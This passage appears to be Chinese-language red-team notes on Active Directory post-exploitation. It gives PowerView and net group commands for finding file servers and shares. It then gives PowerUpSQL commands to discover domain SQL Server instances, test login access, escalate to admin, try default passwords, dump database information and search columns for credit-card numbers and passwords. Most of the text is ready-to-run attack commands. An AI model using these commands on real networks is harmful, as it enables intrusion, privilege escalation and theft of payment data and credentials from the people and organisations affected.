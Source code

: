 
- 搜索域内跟文件相关的计算机名
```cpp
# List all domain computers and filter all computers with “FILE” in their name
net group "Domain Computers" /domain | findstr "FILE"
```

- powerview  
[Cheat sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
```cpp
Find-DomainShare
Get-DomainFileServer
```


### 数据库信息
#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
[https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/](https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/)

- 信息收集
```cpp
# Find all local SQL instances:
Get-SQLInstanceLocal -Verbose

# Find all SQL instances across a domain/network:
Get-SQLInstanceDomain -Verbose
Get-SQLInstanceBroadcast -Verbose
Get-SQLInstanceScanUDP -Verbose
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1611489894586-d1b59747-a3d3-444e-b89e-b44d5bfb2114.png#align=left&display=inline&height=510&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1020&originWidth=1760&size=199052&status=done&style=none&width=880)


- 获得详细信息
```cpp
# Enumerate basic information about local SQL instances
Get-SQLInstanceLocal | Get-SQLServerInfo

# Enumerate basic information about a remote SQL instance
Get-SQLServerInfo -Instance "Srv-Web-Kit.rootkit.org"
```

- 利用!
```cpp
列出当前用户能登录的实例
Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose -Threads 10
 
尝试获取实例admin权限
Invoke-SQLEscalatePriv -Verbose -Instance "COMPUTER_NAME"
    
使用默认密码枚举
Get-SQLInstanceDomain -Verbose | Get-SQLServerLoginDefaultPw -Verbose

Dump数据库信息
Invoke-SQLDumpInfo -Verbose -Instance "COMPUTER_NAME"

使用自动审计
Invoke-SQLAudit -Verbose -Instance "COMPUTER_NAME"
   
    
敏感信息
Import-Module PowerUpSQL.psd1
$Servers = Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose -Threads 10
$Accessible = $Servers | Where-Object {$_.Status –eq “Accessible”}
$Accessible | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize 
----
```